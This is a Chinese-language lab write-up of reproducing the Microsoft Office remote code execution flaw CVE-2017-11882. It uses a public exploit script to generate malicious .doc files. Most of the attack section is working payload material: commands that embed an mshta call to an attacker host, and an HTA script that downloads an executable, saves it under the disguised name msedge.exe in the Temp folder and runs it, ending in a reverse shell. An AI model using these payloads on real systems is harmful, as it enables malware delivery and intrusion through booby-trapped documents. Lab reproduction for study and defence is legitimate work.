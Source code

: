 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office漏洞
  - CVE-2017-11882
excerpt: Microsoft Office 2007 Service Pack 3、Microsoft Office 2010 Service Pack 2、Microsoft Office 2013 Service Pack 1 和 Microsoft Office 2016 存在内存对象处理漏洞，允许攻击者以当前用户身份运行任意代码，该漏洞又称为“Microsoft Office 内存损坏漏洞”。此 CVE ID 与 CVE-2017-11884 不同。
---
```


# CVE-2017-11882

> [CVE-2017-11882 Office RCE 复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2020/10/office.html)
> 
---

- [CVE-2017-11882](#cve-2017-11882)
  - [简介](#简介)
  - [复现环境](#复现环境)
  - [漏洞复现](#漏洞复现)
  - [参考材料](#参考材料)

---

## 简介

潜伏 17 年之久的 Office 远程代码执行漏洞（CVE-2017-11882）影响版本从 Office 2000 到当时最新的 Office 2016，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。

---

## 复现环境

- 靶机: 
  - [Win7SP1旗舰版](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2016](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

利用 [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882) 中的 [Command109b_CVE-2017-11882.py](https://github.com/Ridter/CVE-2017-11882/blob/master/Command109b_CVE-2017-11882.py) 生成带命令的 doc 文件

```bash
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o calc.doc
```

![image-20240617055440013](http://cdn.ayusummer233.top/DailyNotes/202406170554036.png)

受害者打开此文档即会弹出计算器

![image-20240617055823640](http://cdn.ayusummer233.top/DailyNotes/202406170558724.png)

---

试了下一些下载与执行文件的命令，效果都不是很理想，试下来似乎只适合短链命令，例如结合mshta脚本使用

`calc.hta`

```htaccess
<script>
    new ActiveXObject("WScript.Shell").Run("calc.exe");
</script>
```

```bash
python2 Command109b_CVE-2017-11882.py -c "mshta http://100.1.1.131:8000/download/calc.hta" -o htacalc.doc
```

![image-20240617064749124](http://cdn.ayusummer233.top/DailyNotes/202406170647275.png)

---

`deexe.hta`

```htaccess
<script>
var url = 'http://100.1.1.131:8000/download/normal.exe';var network = new ActiveXObject('WScript.Network');var username = network.UserName;var downloadPath = 'C:\\Users\\' + username + '\\AppData\\Local\\Temp\\msedge.exe';var xmlhttp = new ActiveXObject('MSXML2.XMLHTTP');xmlhttp.open('GET', url, false);xmlhttp.send();var stream = new ActiveXObject('ADODB.Stream');stream.Open();stream.Type = 1;stream.Write(xmlhttp.responseBody);stream.Position = 0;stream.SaveToFile(downloadPath, 2); stream.Close();var shell = new ActiveXObject('WScript.Shell');shell.Run(downloadPath);
</script>
```

![image-20240617065522463](http://cdn.ayusummer233.top/DailyNotes/202406170655737.png)

如果遇到上述错误需要 `ie-->Internet选项-->安全-->自定义级别-->找到“通过域访问数据源”-->选择“启用”。`

![image-20240617065739113](http://cdn.ayusummer233.top/DailyNotes/202406170657155.png)

也可以直接把站点加到可信站点里来帮助复现

成功反弹shell：

![image-20240617070200444](http://cdn.ayusummer233.top/DailyNotes/202406170702490.png)

---


## 参考材料

- 分析

- 利用工具
  - [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

- 复现过程

- 检测对抗


